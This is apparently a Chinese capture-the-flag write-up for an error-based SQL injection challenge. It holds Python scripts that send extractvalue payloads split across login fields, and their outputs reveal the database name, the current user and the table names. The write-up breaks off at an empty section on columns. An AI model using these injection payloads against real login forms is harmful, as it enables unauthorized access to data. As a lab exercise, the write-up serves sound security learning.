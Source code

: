# sql注入之报错注入——加了料的报错注入

0x01
===
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/5wspylsy8c8.png" width="600px" />

[题目链接](http://ctf5.shiyanbar.com/web/baocuo/index.php)

0x02 解题
===
### 获取数据库名称
code
```python
import requests

data={'username':"'or extractvalue/*",
"password":"*/(1, concat(0x5c,(select database()))) or'"}
r = requests.post("http://ctf5.shiyanbar.com/web/baocuo/index.php",data=data)
r.encoding='utf-8'
print(r.text)
```
output
```shell
<br>XPATH syntax error: '\error_based_hpf'
```
### 获取用户名称
code
```python
import requests

data={'username':"'or extractvalue/*",
"password":"*/(1, concat(0x5c,(select user()))	) or'"}
r = requests.post("http://ctf5.shiyanbar.com/web/baocuo/index.php",data=data)
r.encoding='utf-8'
print(r.text)
```
output
```shell
<br>XPATH syntax error: '\web8@localhost'

```

### 获取所有数据表名称
code
```python
import requests
data={'username':"'or extractvalue/*",
"password":"*/(1, concat(0x5c,( select group_concat(table_name) from information_schema.tables where TABLE_SCHEMA regexp 'error_based_hpf'))) or'"}
r = requests.post("http://ctf5.shiyanbar.com/web/baocuo/index.php",data=data)
r.encoding='utf-8'
print(r.text)
```
output
```shell
<br>XPATH syntax error: '\ffll44jj,users'
```

### 获取所有字段 

```{.python .input}

```
